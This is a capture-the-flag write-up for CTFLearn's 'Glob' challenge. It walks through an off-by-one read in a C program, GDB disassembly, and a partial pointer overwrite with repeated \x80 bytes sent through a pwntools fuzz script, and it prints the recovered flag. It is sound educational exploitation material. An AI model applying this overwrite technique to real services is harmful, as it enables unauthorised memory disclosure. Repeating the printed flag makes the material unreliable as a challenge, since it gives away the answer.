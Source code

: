 # Glob

Looking at the given code in `task.c`, we see that our target is the `flag` value in the `program_data` `struct`.

We are able to enter data in the following lines:

```
printf("Your name? ");
  
program_data.message = program_data.username;
read(STDIN_FILENO, program_data.username, 33);
puts(program_data.message);
```

The key vulnerability at play comes when `program_data.message` is set equal to `program_data.username` and then reads from `STDIN_FILENO`. From the code:

```
struct __attribute__((__packed__)) {
    char flag[32];
    char username[32];
    char *message;
} program_data;
```

The `read` command is allowing for 33 characters, when `program_data.username` only allows for 32. If we enter strings of more than 32 digits into the `nc` link, we get odd results:

```
~$ nc rivit.dev 10022
Your name? aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
{-y

~$ nc rivit.dev 10022
Your name? aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
iv

~$ nc rivit.dev 10022
Your name? aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Iu

~$ nc rivit.dev 10022
Your name? aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
kJ|
```

Here, we have an Out-of-Bounds read vulnerability. A little research tells us that the expected behvior of such a vulnerability is unpredictable, so we try to run the given executable in GDB to ascertain the behavior.

If we `disas read_flag`:

```
gdb-peda$ disas read_flag
Dump of assembler code for function read_flag:
   0x00000000004011f6 <+0>:     endbr64
   0x00000000004011fa <+4>:     push   rbp
   0x00000000004011fb <+5>:     mov    rbp,rsp
   0x00000000004011fe <+8>:     sub    rsp,0x10
   0x0000000000401202 <+12>:    lea    rax,[rip+0xdfb]        # 0x402004
   0x0000000000401209 <+19>:    mov    rsi,rax
   0x000000000040120c <+22>:    lea    rax,[rip+0xdf4]        # 0x402007
   0x0000000000401213 <+29>:    mov    rdi,rax
   0x0000000000401216 <+32>:    call   0x401100 <fopen@plt>
   0x000000000040121b <+37>:    mov    QWORD PTR [rbp-0x8],rax
   0x000000000040121f <+41>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x0000000000401224 <+46>:    je     0x40124f <read_flag+89>
   0x0000000000401226 <+48>:    mov    rax,QWORD PTR [rbp-0x8]
   0x000000000040122a <+52>:    mov    rdx,rax
   0x000000000040122d <+55>:    mov    esi,0x20
   0x0000000000401232 <+60>:    lea    rax,[rip+0x2e47]        # 0x404080 <program_data>
   0x0000000000401239 <+67>:    mov    rdi,rax
   0x000000000040123c <+70>:    call   0x4010e0 <fgets@plt>
   0x0000000000401241 <+75>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000401245 <+79>:    mov    rdi,rax
   0x0000000000401248 <+82>:    call   0x4010b0 <fclose@plt>
   0x000000000040124d <+87>:    jmp    0x401250 <read_flag+90>
   0x000000000040124f <+89>:    nop
   0x0000000000401250 <+90>:    leave
   0x0000000000401251 <+91>:    ret
End of assembler dump.
```

We see that flag is at `0x404080`, and if we `disas main`:

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000401252 <+0>:     endbr64
   0x0000000000401256 <+4>:     push   rbp
   0x0000000000401257 <+5>:     mov    rbp,rsp
   0x000000000040125a <+8>:     sub    rsp,0x10
   0x000000000040125e <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x0000000000401261 <+15>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000401265 <+19>:    mov    rax,QWORD PTR [rip+0x2df4]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x000000000040126c <+26>:    mov    ecx,0x0
   0x0000000000401271 <+31>:    mov    edx,0x2
   0x0000000000401276 <+36>:    mov    esi,0x0
   0x000000000040127b <+41>:    mov    rdi,rax
   0x000000000040127e <+44>:    call   0x4010f0 <setvbuf@plt>
   0x0000000000401283 <+49>:    mov    rax,QWORD PTR [rip+0x2de6]        # 0x404070 <stdin@GLIBC_2.2.5>
   0x000000000040128a <+56>:    mov    ecx,0x0
   0x000000000040128f <+61>:    mov    edx,0x2
   0x0000000000401294 <+66>:    mov    esi,0x0
   0x0000000000401299 <+71>:    mov    rdi,rax
   0x000000000040129c <+74>:    call   0x4010f0 <setvbuf@plt>
   0x00000000004012a1 <+79>:    mov    eax,0x0
   0x00000000004012a6 <+84>:    call   0x4011f6 <read_flag>
   0x00000000004012ab <+89>:    lea    rax,[rip+0xd60]        # 0x402012
   0x00000000004012b2 <+96>:    mov    rdi,rax
   0x00000000004012b5 <+99>:    mov    eax,0x0
   0x00000000004012ba <+104>:   call   0x4010c0 <printf@plt>
   0x00000000004012bf <+109>:   lea    rax,[rip+0x2dda]        # 0x4040a0 <program_data+32>
   0x00000000004012c6 <+116>:   mov    QWORD PTR [rip+0x2df3],rax        # 0x4040c0 <program_data+64>
   0x00000000004012cd <+123>:   mov    edx,0x21
   0x00000000004012d2 <+128>:   lea    rax,[rip+0x2dc7]        # 0x4040a0 <program_data+32>
   0x00000000004012d9 <+135>:   mov    rsi,rax
   0x00000000004012dc <+138>:   mov    edi,0x0
   0x00000000004012e1 <+143>:   call   0x4010d0 <read@plt>
   0x00000000004012e6 <+148>:   mov    rax,QWORD PTR [rip+0x2dd3]        # 0x4040c0 <program_data+64>
   0x00000000004012ed <+155>:   mov    rdi,rax
   0x00000000004012f0 <+158>:   call   0x4010a0 <puts@plt>
   0x00000000004012f5 <+163>:   mov    eax,0x0
   0x00000000004012fa <+168>:   leave
   0x00000000004012fb <+169>:   ret
End of assembler dump.
```

We see (from the `puts` command) that `message` is at `0x4040c0`. Now, if we add breakpoints before and after reading the user input (in this case, I used 'a' repeated 33 times),

```
gdb-peda$ p *0x4040c0
$9 = 0x0
```

Which became:

```
gdb-peda$ p *0x4040c0
$9 = 0x404061
```

To test, we repeat with the last character changed to 'b':

```
gdb-peda$ p *0x4040c0
$11 = 0x404062
```

Since 'a' in hex is `0x61`, we have overwritten the last byte of `program_data.message`. However, we need to point to `0x404080`. For this, I wrote `fuzz.py` (included in this folder) which sent a repeated string of `\x80` to the remote server. This resulted in:

```
$ python fuzz.py
[*] '/mnt/c/Users/Brian/Documents/Coding/CTFLearn/Easy/Glob/task/task'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to rivit.dev on port 10022: Done
/mnt/c/Users/Brian/Documents/Coding/CTFLearn/Easy/Glob/fuzz.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  conn.recvuntil("Your name? ")
/mnt/c/Users/Brian/Documents/Coding/CTFLearn/Easy/Glob/fuzz.py:13: BytesWarning: Text is not bytes; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  conn.sendline(payload)
[+] Receiving all data: Done (32B)
[*] Closed connection to rivit.dev port 10022
output b'CTFlearn{p4rt14l_ptr_0v3rwr1t3}\n'
```

With a flag value of `CTFlearn{p4rt14l_ptr_0v3rwr1t3}`.

## References

[CWE-125: Out-of-bounds Read](https://cwe.mitre.org/data/definitions/125.html)
